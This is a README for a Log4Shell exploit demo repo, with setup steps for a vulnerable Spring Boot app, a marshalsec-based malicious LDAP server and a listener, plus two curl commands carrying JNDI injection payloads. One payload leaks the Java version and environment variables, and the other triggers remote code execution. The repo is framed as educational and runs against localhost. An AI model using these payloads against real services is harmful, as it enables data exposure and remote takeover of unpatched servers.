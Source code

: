 ## Log4Shell Exploit Demo

🛑 _Code in this repo should be used for educational purposes only!_ 🛑  
🛑 _Do not use these attacks against services which are not under your control!_ 🛑

_Please see [references](#References) for initiating repos with Python samples and further information._

## Purpose

This repo mixes code from repos mentioned in the [references](#References) section to facilitate single language and tech stack (Java/Spring) demo of the exploit. To replay the demo, only Java and Maven have to be installed, though an IDE is recommended.

## Prerequisites

* Java 8+ (for Java8u191+ and Java 11.0+ see _Start_ Todos below)
* Maven 3+
* (Opt.) IntelliJ or Eclipse

## Setup

### Install LDAP Ref Lib locally

* Clone https://github.com/mbechler/marshalsec
* Uncomment the `<artifactId>maven-assembly-plugin</artifactId>` in `pom.xml`
* Install library to local Maven Repo with `mvn clean install`

## Run Demo

### Start Web Application with vulnerable Log4j

* In Folder *vulnerable-spring-boot-web-app* 
* Build with `mvn clean install`
* Run `Log4shellApplication`

_Note: With Java 11 or Java8u191+ (for other Java SDKs see [here](https://www.geekyhacker.com/2021/12/11/three-ways-to-patch-log4shell-cve-2021-44228-vulnerability/)), in Run Configuration, Add VM option `-Dcom.sun.jndi.ldap.object.trustURLCodebase=true`_

### Start Exploit & LDAP Servers

* In folder *l4sexploit*
* Build with `mvn clean install`
* Run `L4sexploitApplication`

### Start Socketlistener

* In folder *l4sexploit*
* Run `ExploitServer`

### Call Exploit

* _Secret Information Exposure_: Call `curl -A '${jndi:ldap://localhost:1389/javaversion:${java:version}/user:${env:USER}}' http://localhost:9090/`
* _Remote Code Execution (Command & Control)_: Call `curl -A '${jndi:ldap://localhost:1389/exec}' http://localhost:9090/`

### References

* Log4Shell-POC: https://github.com/kozmer/log4j-shell-poc
* Web Appication: https://github.com/korteke/log4shell-demo
* LDAP Serialization Hack: https://github.com/mbechler/marshalsec

### To use locally generated marshalsec Maven Artifact

```xml
<dependency>
  <groupId>org.eenterphace.mbechler</groupId>
  <artifactId>marshalsec</artifactId>
  <version>0.0.3-SNAPSHOT</version>
</dependency>
```

### It does not work

* Did you add `-Dcom.sun.jndi.ldap.object.trustURLCodebase=true` for newer Java SDKs?
* Did you install the *marshalsec* JAR in your local Maven repo?
* Did you remove/uncomment the assembly Maven plugin when building *marshalsec* JAR?
